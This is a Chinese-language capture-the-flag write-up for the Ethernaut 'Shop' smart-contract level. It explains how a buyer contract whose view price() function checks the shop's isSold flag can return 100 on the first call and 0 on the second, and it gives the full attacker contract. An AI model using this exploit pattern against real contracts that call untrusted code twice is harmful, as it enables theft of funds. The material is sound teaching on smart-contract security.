


# Shop

跟第11关很像

## 题目

要求：修改price的值小于100（那我们就修改成0吧）

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Buyer {
  function price() external view returns (uint);
}

contract Shop {
  uint public price = 100;
  bool public isSold;

  function buy() public {
    Buyer _buyer = Buyer(msg.sender);

    if (_buyer.price() >= price && !isSold) {
      isSold = true;
      price = _buyer.price();
    }
  }
}
```

## 分析

我们发现这个题目要求我们修改price的值，并且buy()函数调用了两次接口的price()，price()需要我们去实现。

那么我们就需要第一次返回一个值，第二次返回另外一个不一样的值，以此来达到目的：第一次`_buyer.price() >= price`返回的值应该大于等于100，第二次`price = _buyer.price();`返回的值应该为0。因此我们实现的price()，第一次和第二次调用的结果应该是不一样的

但是接口`function price() external view returns (uint);`的view告诉我们，不可以修改状态变量，因此我们写的内容不可以进行修改状态变量，可以变动的只有`isSold = true;`。那么，我们可以根据这个特点来进行写一个函数，isSold=false的时候返回100，isSold=true的时候返回0

```solidity
function price() external view returns (uint256) {
	return shop.isSold() ? 0 : 100;
}
```

## 攻击代码

使用abstract contract而不是接口，因为写接口然后调用会显示潜在修改状态 state (`function price() external returns(uint256);`)，无法通过编译

```solidity
abstract contract IShop {
    uint public price;
    bool public isSold;
    function buy() external virtual;
}

contract Hack {
    IShop public shop = IShop(0x06A0D2632aF25528392BDDe6c786fb21C3757cF1);

    function attack() public {
        shop.buy();
    }

    function price() external view returns (uint256) {
        return shop.isSold() ? 0 : 100;
    }
}
```

## 解题

获取实例，攻击



成功


